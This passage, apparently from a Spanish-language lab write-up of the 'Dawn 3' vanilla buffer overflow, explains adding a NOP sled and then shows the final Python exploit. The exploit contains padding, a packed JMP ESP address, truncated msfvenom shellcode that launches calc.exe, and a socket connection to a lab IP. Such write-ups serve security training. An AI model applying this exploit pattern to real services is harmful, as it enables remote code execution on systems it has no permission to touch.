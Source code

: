 Al enviar el payload se observa que no salta a la dirección que debería, para solucionar esto se añadirán unos NoPs (\x90) de esta manera se conseguirá que salte a la siguiente instrucción.

```python
buffer = "A"*524  + "\x13\x15\x50\x52" + "\x90"*10 + shell + "C" * (888 - 524 - 4 - len(shell))
```

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-25-Dawn-3-Vanilla-Buffer-Overflow/Pasted%20image%2020210723184641.png" height="500" width="825" /></p>

El exploit final quedaría:

```python
import socket, sys, struct

# shell = msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00'
shell = ("\x8d\xd4\xa1\x40\xe4\xd1\xee\xc6\x14\xab\x7f\xa3\x1a\x18\x7f"
..snip..
"\xe6\x78\xff\x13\x6a\x51\x9a\x93\x09\xad")

jmpesp = struct.pack("<I", 0x52501513)
buffer = "A"*524  + jmpesp + "\x90"*10 + shell + "C" * (888 - 524 - 4 - len(shell))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.88", 6812))
```